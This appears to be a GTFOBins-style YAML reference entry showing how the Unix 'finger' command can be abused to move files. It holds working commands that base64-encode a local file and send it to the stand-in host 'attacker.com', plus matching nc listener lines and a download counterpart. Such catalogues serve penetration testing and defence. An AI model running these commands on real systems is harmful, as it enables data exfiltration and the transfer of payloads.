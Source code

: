 ```yaml
---
name: finger
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
  file-download:
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        LFILE=file_to_save
        finger x@$RHOST | base64 -d > "$LFILE"
---
```

